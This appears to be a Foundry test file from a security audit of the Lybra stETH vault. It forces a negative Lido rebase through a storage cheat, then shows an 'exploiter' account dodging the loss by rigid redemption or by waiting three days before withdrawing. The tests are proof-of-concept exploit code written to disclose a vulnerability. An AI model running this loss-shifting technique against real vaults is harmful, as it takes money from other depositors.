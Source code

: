 ```solidity
    }
    
    function negativeRebaseLido() internal {
        bytes32 BUFFERED_ETHER_POSITION =
            0xed310af23f61f96daefbcd140b306c0bdbf8c178398299741687b90e794772b0; // keccak256("lido.Lido.bufferedEther");
        vm.store(address(stETH), BUFFERED_ETHER_POSITION, bytes32(0));
    }

    function testV2AvoidingRebaseLossesWithRigid() public {
        console.log("lybra balance before rebase: ", stETH.balanceOf(address(stETHVault)));
        uint256 exploiterBalance = stETH.balanceOf(exploiter);
        vm.startPrank(exploiter);
        stETH.approve(address(stETHVault), exploiterBalance);
        console.log("exploiter balance before rebase: ", stETH.balanceOf(exploiter));
        uint256 toBorrow = exploiterBalance * oracle.fetchPrice() * 100 / configurator.getSafeCollateralRatio(address(stETHVault));
        stETHVault.depositAssetToMint(exploiterBalance, toBorrow);
        
        negativeRebaseLido();
        
        configurator.becomeRedemptionProvider(true);
        stETHVault.rigidRedemption(exploiter, toBorrow);
        stETHVault.withdraw(exploiter, stETHVault.depositedAsset(exploiter));
        console.log("exploiter balance after rebase: ", stETH.balanceOf(exploiter));
        console.log("lybra balance after rebase: ", stETH.balanceOf(address(stETHVault)));
        vm.stopPrank();
    }

        function testV2AvoidingRebaseLossesWaitFor3Days() public {
        console.log("lybra balance before rebase: ", stETH.balanceOf(address(stETHVault)));
        uint256 exploiterBalance = stETH.balanceOf(exploiter);
        vm.startPrank(exploiter);
        stETH.approve(address(stETHVault), exploiterBalance);
        console.log("exploiter balance before rebase: ", stETH.balanceOf(exploiter));
        stETHVault.depositAssetToMint(exploiterBalance, 0);
        negativeRebaseLido();

        vm.warp(block.timestamp + 3 days);
        stETHVault.withdraw(exploiter, exploiterBalance);
        console.log("exploiter balance after rebase: ", stETH.balanceOf(exploiter));
        console.log("lybra balance after rebase: ", stETH.balanceOf(address(stETHVault)));
        vm.stopPrank();
    }

    function testV2NormalRebaseLosses() public {
        console.log("lybra balance before rebase: ", stETH.balanceOf(address(stETHVault)));
        console.log("exploiter balance before rebase: ", stETH.balanceOf(exploiter));
        negativeRebaseLido();
        console.log("exploiter balance after rebase: ", stETH.balanceOf(exploiter));
        console.log("lybra balance after rebase: ", stETH.balanceOf(address(stETHVault)));
    }
}
```
